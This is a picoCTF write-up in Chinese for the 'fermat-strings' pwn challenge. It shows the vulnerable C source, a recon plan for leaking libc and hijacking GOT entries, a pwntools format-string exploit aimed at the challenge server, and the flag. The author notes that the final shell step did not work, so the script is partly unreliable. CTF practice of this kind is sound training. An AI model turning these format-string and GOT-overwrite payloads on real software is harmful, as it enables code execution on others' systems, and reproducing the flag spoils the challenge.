 ```yaml
---
title: PicoCTF - fermat-strings
tags: [PicoCTF, CTF, PWN]

---
```


# PicoCTF - fermat-strings
## Background
[C 庫函數 - strcspn()](https://www.runoob.com/cprogramming/c-function-strcspn.html)
> 該函數返回 str1 開頭連續都不含字符串 str2 中字符的字符數。

[atoi() - C語言庫函數](http://tw.gitbook.net/c_standard_library/c_function_atoi.html)
> 這個函數返回一個int值轉換的整數。如果冇有有效的轉換可以執行，它返回零。

[C 库函数 - snprintf()](https://www.runoob.com/cprogramming/c-function-snprintf.html)
> snprintf() 函數的返回值是輸出到 str 緩沖區中的字符數，不包括字符串結尾的空字符 \0。如果 snprintf() 輸出的字符數超過了 size 參數指定的緩沖區大小，則輸出的結果會被截斷，只有 size - 1 個字符被寫入緩沖區，最後一個字符為字符串結尾的空字符 \0。
>
>需要注意的是，snprintf() 函數返回的字符數並不包括字符串結尾的空字符 \0，因此如果需要將輸出結果作為一個字符串使用，則需要在緩沖區的末尾添加一個空字符 \0。


[Format Specifiers in C](https://www.geeksforgeeks.org/format-specifiers-in-c/)
## Source code
:::spoiler
```cpp!
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <math.h>

#define SIZE 0x100

int main(void)
{
  char A[SIZE];
  char B[SIZE];

  int a = 0;
  int b = 0;

  puts("Welcome to Fermat\\'s Last Theorem as a service");

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  printf("A: ");
  read(0, A, SIZE);
  printf("B: ");
  read(0, B, SIZE);

  A[strcspn(A, "\n")] = 0;
  B[strcspn(B, "\n")] = 0;

  a = atoi(A);
  b = atoi(B);

  if(a == 0 || b == 0) {
    puts("Error: could not parse numbers!");
    return 1;
  }

  char buffer[SIZE];
  snprintf(buffer, SIZE, "Calculating for A: %s and B: %s\n", A, B);
  printf(buffer);

  int answer = -1;
  for(int i = 0; i < 100; i++) {
    if(pow(a, 3) + pow(b, 3) == pow(i, 3)) {
      answer = i;
    }
  }

  if(answer != -1) printf("Found the answer: %d\n", answer);
}
```
:::
## Recon
這一題太難了，可以參考的資料太少了，大部分都有一些缺失，而且重點是server那邊的版本和local端不一樣就會造成got hijack失敗，所以最後沒有做出來，但是流程還是可以記錄一下
1. 先leak stack的資訊，例如`__libc_start_main`的address，然後到[^libc_database_search]查詢，光這一點耗費蠻多心力，雖然說只要查看stack上相對的位置，就可以leak出對應的address，但有可能是因為我local端libc version是2.35，所以找不到對應位置上libc address在database上的資料，但在server端卻找得到，這可能是不同版本的鍋，所以之後要找這種libc version的問題，最好是在2.31的地方
2. 得到libc的version後，就可以算offset，得出libc base address，然後就可以得出system在libc的確切位址，又由於這隻程式只會執行一次就結束，所以我們要讓他有loop的效果，作法就是got hijack，改掉pow的got位置為main function的address
註：為甚麼是改pow而不是atoi, snprintf之類的function的got?因為pow是比較後面被呼叫到的function，如果修改那些太早被呼叫到的function就馬上從main開始執行，這樣就沒辦法開shell了
3. 接著我們可以再從第二次的input中開shell，這就是最後做不出來的地方，除了之前沒有寫過相關的題目不知道怎麼開以外，其他WP[^fermat-strings][^picoMini-by-redpwn][^picoMini-by-redpwn-2021-Darin's-Challenges]也都會有其他的問題
## Exploit
```python!
from pwn import *
exe = ELF("chall")
libc = ELF("./libc6_2.31-0ubuntu9.1_amd64.so")

context.binary = exe
context.terminal = "kitty"

offset___libc_start_main_ret = 0x026fc0
offset_system = 0x0000000000055410
# offset___libc_start_main_ret_local = 0xac0b3c2270
# offset_system_local = 0x050d60

r = remote("mars.picoctf.net", 31929)
# r = process('./chall')

'''#############
leak libc address
#############'''
payload1 = b'1 %2082c%12$hn  ' + p64(exe.got['pow'])
payload2 = b'2 %109$p'
r.recvuntil(b'A: ')
r.sendline(payload1)
r.recvuntil(b'B: ')
r.sendline(payload2)
print(r.recvuntil(b" 2 0x"))
return_value = int(r.recv(12).strip(), 16)
libc_addr = return_value - 243 - offset___libc_start_main_ret
success(f"Return Value = {hex(return_value)}")
success(f"libc address = {hex(libc_addr)}")
success(f"libc system address = {hex(libc_addr + offset_system)}")
# success(f"libc system address = {hex(libc_addr + offset_system_local)}")
# success(f"libc address = {hex(libc_addr - offset___libc_start_main_ret_local)}")


'''#############
Get Shell
#############'''
# raw_input()
third = (libc.sym['system']>>16)&0xff
bottom = libc.sym['system'] & 0xffff
first = third - 21
second = bottom - third

payload1 = f'1 %{first}c%43$hhn%{second}c%44$hn'
payload2 = b'2'.ljust(8, b' ') + p64(exe.got['atoi']+2) + p64(exe.got['atoi'])
r.recvuntil(b'A: ')
r.sendline(payload1)
r.recvuntil(b'B: ')
r.sendline(payload2)

r.interactive()
```

Flag: `picoCTF{f3rm4t_pwn1ng_s1nc3_th3_17th_c3ntury}`
## Reference
[^fermat-strings]:[fermat-strings](https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF_redpwn/fermat-strings.md)
[^picoMini-by-redpwn]:[picoMini by redpwn](https://heinen.dev/picoctf-2021-redpwn/#fermat-strings)
[^picoMini-by-redpwn-2021-Darin's-Challenges]:[picoMini by redpwn 2021 - Darin's Challenges](https://activities.tjhsst.edu/csc/writeups/picomini-redpwn-darin#fermat-strings-pwn)
[^libc_database_search]:[libc database search](https://libc.blukat.me/?q=__libc_start_main_ret%3A0x7fa8cf54d0b3&l=libc6_2.31-0ubuntu9.1_amd64)
